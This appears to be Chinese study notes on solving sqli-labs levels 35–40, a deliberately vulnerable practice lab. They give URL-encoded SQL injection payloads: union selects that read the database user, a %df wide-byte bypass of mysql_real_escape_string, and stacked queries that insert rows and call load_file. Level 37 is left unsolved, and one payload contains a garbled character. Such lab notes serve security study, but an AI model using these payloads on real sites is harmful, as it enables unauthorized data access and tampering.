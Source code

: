 ### 35、和33关一样，区别在于 sql 语句的不同

```
-- 因为没有单引号包括，所以不需要吃掉反斜杠，直接注入
Less-35/?id=-1%20%20union%20select%201,user(),3--+
```

### 36、

>   源码中 check _quotes()函数是利用了 mysql_real_escape_string()函数进行的过滤。
>
>   mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字转义下面这些
>
>   【\x00、\x1a、\n、\r、 \、单引号、双引号，】
>
>   如果成功，则该函数返回被转义的字符串。如果失败，则返回 false
>
>   但是因 mysql 我们并没有设置成 gbk，所以 mysql_real_escape_string()依旧能够被突破。方和上述是一样的
>
>   ```
>   Less-36/?id=-1�'%27union%20select%201,user(),3--+
>   Less-36/?id=-1%df%27union%20select%201,user(),3--+
>   ```
>
>   

### 37、有问题

==需要分析源码，原因在与无法绕过mysql_real_escape_string()方法，每次都被转义==

### 38、堆叠注入

>   **Oracle数据库无法进行堆叠注入**
>
>   ```sql
>   加载文件 select * from users where id=1;select load_file('c:/tmpupbbn.php');
>   
>   -- payload构造【因为是字符串注入，所以需要加单引号】
>   ?id=1';insert into users(id,username,password) values ('38','less38','hello')--+
>   ```

#### 【39】

>   ```sql
>   -- 与38不同的是sql语句上的不同，传入参数是整形
>   ?id=1;insert into users(id,username,password) values ('39','less39','hello')--+
>   ```
>
>   

#### 【40】

>   ```sql
>   -- 这关是单引号加括号注入，其他不变，也就是字符串括号注入
>   
>   ?id=1'); insert into users(id,username, password) values ('109','hello','hello')%23
>   ```
>
>   
